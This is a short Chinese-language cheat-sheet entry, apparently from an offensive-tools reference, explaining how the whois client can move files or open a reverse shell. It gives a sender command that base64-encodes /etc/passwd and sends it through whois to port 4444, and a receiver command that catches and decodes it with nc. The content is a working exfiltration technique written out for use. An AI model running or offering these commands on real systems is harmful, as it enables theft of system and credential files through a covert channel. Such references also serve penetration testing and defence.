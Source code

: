 # whois

传文件、也可用于反弹shell

传输机：

```bash
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
```

接受机：

```bash
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```
